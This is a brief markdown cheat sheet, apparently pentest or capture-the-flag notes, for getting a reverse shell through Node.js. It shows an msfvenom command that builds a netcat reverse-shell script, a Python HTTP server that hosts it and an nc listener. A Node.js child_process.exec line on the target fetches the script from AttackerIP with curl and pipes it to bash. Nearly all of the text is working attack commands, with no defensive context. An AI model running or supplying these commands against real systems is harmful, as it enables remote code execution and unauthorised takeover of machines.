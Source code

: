 # NodeJs Shell
***

## Attacker Machine
- Create netcat reverse shell
```
msfvenom -p cmd/unix/reverse_netcat lhost=AttackerIP lport=7777 R > shell.sh
```

- Terminal 1: Set up a server
```
sudo python3 -m http.server 9999
```

- Terminal 2: Setup a Netcat listener
```
nc -lnvp 7777
```

## Target Machine
```
require('child_process').exec('curl -s -L http://AttackerIP:9999/shell.sh |  bash')
```
